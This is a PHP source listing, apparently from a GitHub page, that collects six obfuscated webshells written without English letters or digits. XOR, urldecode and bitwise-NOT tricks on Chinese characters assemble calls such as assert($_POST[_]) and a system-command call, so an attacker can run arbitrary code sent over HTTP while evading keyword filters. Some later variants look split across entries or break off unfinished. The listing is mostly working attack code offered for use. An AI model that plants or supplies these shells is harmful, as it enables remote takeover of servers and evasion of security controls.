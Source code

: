 ```php

// 无英文数字的webshell 1
<?=
$💩 = '[[[[@@' ^ '("(/%-';
$💩(('@@['^'#!/')." /????");

// 无英文数字的webshell 2
<?php
$_=(chr(0x01)^'`').(chr(0x13)^'`').(chr(0x13)^'`').(chr(0x05)^'`').(chr(0x12)^'`').(chr(0x14)^'`');
$__='_'.(chr(0x0D)^']').(chr(0x2F)^'`').(chr(0x0E)^']').(chr(0x09)^']');
$___=$$__;
$_($___[_]);// assert($_POST[_]);
?>

// 无英文数字的webshell 3
<?php
$_=(urldecode('%01')^'`').(urldecode('%13')^'`').(urldecode('%13')^'`').(urldecode('%05')^'`').(urldecode('%12')^'`').(urldecode('%14')^'`');
$__='_'.(urldecode('%0D')^']').(urldecode('%2F')^'`').(urldecode('%0E')^']').(urldecode('%09')^']');
$___=$$__;
$_($___[_]);// assert($_POST[_]);
?>

// 无英文数字的webshell 4
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;
$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

// 无英文数字的webshell 5
$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});
$_=$$_____;
$____($_[_]);// assert($_POST[_]);

// 无英文数字的webshell 6
<?php
$__=[];
$___=[];
$_=$__==$___;
$__=~(瞰);
$___=$__[$_];
$__=~(北);
$___.=$__[$_].$__[$_];
$__=~(的);
$___.=$__[$_];
$__=~(半);
$___.=$__[$_];
$__=~(拾);
$___.=$__[$_];
$____=~(~(_));
$__=~(说);
$____.=$__[$_];
$__=~(小);
$____.=$__[$_];
$__=~(次);
$____.=$__[$_];
$__=~(站);
$____.=$__[$_];
$_=$$____;
```